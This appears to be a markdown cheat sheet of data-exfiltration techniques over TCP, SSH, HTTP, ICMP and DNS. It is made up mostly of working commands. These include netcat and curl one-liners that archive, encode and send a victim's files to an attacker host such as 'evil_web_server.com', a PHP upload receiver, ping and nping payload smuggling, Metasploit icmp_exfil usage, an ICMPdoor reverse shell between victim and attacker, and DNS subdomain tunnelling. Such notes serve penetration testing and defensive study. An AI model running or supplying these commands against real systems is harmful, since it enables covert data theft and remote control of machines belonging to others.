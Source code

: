 # TCP
```bash
# encoding the contents of the file and sharing over tcp connection
# 1. create a gunzip archive of all the files
# 2. Convert it to base64
# 3. encode it with EBCDIC format and send the data
tar czf - folder/ | base64 | dd conv=ebcdic | nc 192.168.5.4 8888

# Recive the files
nc -nvlp 8888 | dd conv=ascii | base64 -d | tar xzf -
```
# SSH
```bash
# Method 1 - scp - secure copy
scp files/* user@mymachine

# Method 2 - if scp is not available
tar czf - files/ | ssh user@mymachine "mkdir /tmp/recieved ; tar xzf -"
```
# HTTP/HTTPS
- POST method
- Need a webserver capable of handling uploads
- Example: PHP
```php
<?php
if (isset($_POST['file'])) {
	$file = fopen("/tmp/file.b64","w");
	fwrite($file,$_POST['file']);
	fclose($file);
}
?>
```
- Data from victime machine can be exfiltered using curl:
```bash
curl --data="file=$(tar czf - files/ | base64)" http://evil_web_server.com
```
# ICMP
- `ICMP`: Internet Control Message Protocol.
- Ping command in linux can add 16 bytes of data to the ICMP packet using `-p` option, in hex representation.
- `xxd` can be used to convert string to hex:
```bash
# convert string to hex
echo "drdragon" | xxd -p
```
- Data can be exfiltrated using ping command (linux) or directly using nping command (from nmap)
```bash
ping <remote_host> -c 1 -p 6472647261676f6e
nping --icmp <remote_host> -c 1 --data-string "drdragon"
```
### Metasploit
- This can be achieved using `Metasploit's icmp_exfil module`
- This module listens for an BOF (Beginning of file) trigger, then writes the data to disk then waits for EOF (End of file).
- `BPF_FILTER` option of this modules takes a `tcpdump` rule.
```bash
set BPF_FILTER icmp and not src <my_ip>
```
- Data can be send using
```bash
sudo nping --icmp -c 1 <remote_host> --data-string "BOFadmin.txt"
sudo nping --icmp -c 1 <remote_host> --data-string "data:data"
sudo nping --icmp -c 1 <remote_host> --data-string "EOF"
```
### ICMPdoor
- Opensource reverse shell written in python3. Uses ICMP data section to send commands.
- On the Victim Machine
```bash
sudo icmpdoor -i <interface> -d <attacker_ip>
```
- On the Attacker machine
```bash
sudo icmp-cnc -i <interface> -d <victim_ip>
```
### DNS
- Setup a Domain name. eg: drdragon.com
- Add a NS which points to a malicious dns server, that we control.
- Encode the data and send the data via subdomain name.
```bash
aioh3ioh53oi5ho3i2.drdragon.com
```
NOTE: The whole URL must be 255 chars long and the subdomain must be less than 63 chars.
```bash
dig aioh3ioh53oi5ho3i2.drdragon.com +short
```
- One the nameserver that you control:
```bash
sudo tcpdump -i eth0 udp port 53 -v
```